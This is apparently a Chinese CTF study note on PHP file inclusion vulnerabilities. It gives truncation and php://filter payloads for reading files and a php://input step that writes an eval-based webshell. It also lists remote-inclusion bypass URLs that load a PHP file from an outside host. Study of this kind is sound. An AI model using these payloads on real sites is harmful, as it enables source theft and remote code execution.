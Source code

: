 ```yaml
---
title: 常考文件包含漏洞
date: 2020-04-09 09:45:45
updated: 2020-04-09 09:45:45
categories: web
---
```


   程序开发人员在写程序的过程中，不喜欢把同样的代码写上好几次，因此通常会把需要重复使用的的代码写到单个的文件里，当需要使<!--more-->用的时候就直接调用这个文件，不需要去重新编写，这种调用的过程就被称为包含。我们需要调用某个文件的时候，就会通过PHP的函数引用文件，如果这个时候传入的文件名没有经过合理校验，从而操作了预想之外的文件，就会导致意外的文件泄露甚至恶意的代码注入

---



![](https://img.npfs06.top/20210305094721.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

# 危险函数

   在PHP文件包含漏洞的函数最常见的有以下四个：

```
 require()
 require_once()
 include()
 include_once()
```

当使用这些函数包含一个新的文件时，只要文件的内容符合PHP的语法规范，则任何拓展名的文件都可以被当作PHP解析，例如上传一个包含恶意代码的txt./ jpg.文件，都会被当作PHP文件执行。

# 分类

## 本地文件包含

- 直接读取目标机上的Flag文件

## 远程文件包含

- 指定第三方服务器上可运行的PHP木马，得到webshell,查看flag文件

# 解题思路

## 查看php的全局配置文件php.ini

```
   allow_url_fopen = on/off
   allow_url_include = on/off
```

只有以上两个都开启的时候才会存在远程文件包含 

## 本地文件包含

- 直接包含flag文件
- 通过PHP伪协议读取代码中的flag
- 传入PHP木马获取webshell,得到flag

### 直接包含flag文件

#### %00截断

  结束符：\x00--> %00

#### 路径长度截断

  Windows下目录最大长度为256字节，超出的部分会被丢弃；
  Linux下目录最大长度为4096字节，超出的部分会被丢弃。
  例：

```
http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././.
```

#### 点号截断

> windows OS，点号需要长于256 

```
http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt..........................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
```

### PHP伪协议

- file://  --访问本地文件系统
- php://   --访问各个输入输出流

#### file://

用法： file://[文件的绝对路径和文件名]

条件（php.ini)  :  allow_url_fopen = off/on
​                              allow_url_include = off/on

#### php://filter

用法：

```
?filename=php://filter/convert.base64-encode/resource=xxx.php
```

```
php://filter/read=string.toupper|string.rot13/resource=xxx.php
```

php://filter伪协议可以套一层协议，就像：

```
php://filter/read=convert.base64-encode/woofers/resource=index
```

条件（php.ini)  : allow_url_fopen = off/on
​                             allow_url_include = off/on

### 传入PHP木马获取webshell,得到flag

**php://input**

用法：?file=php://input 数据利用POST传过去

条件（php.ini)  :  allow_url_fopen = off/on
​                              allow_url_include = on

木马文件（shell.php)

```
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

菜刀/蚁剑连接



## 远程文件包含

#### 问号绕过

```
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?
```

#### #号绕过

```
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23
```

#### %20绕过

```
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%20
```

可参考[https://segmentfault.com/a/1190000018991087](https://segmentfault.com/a/1190000018991087)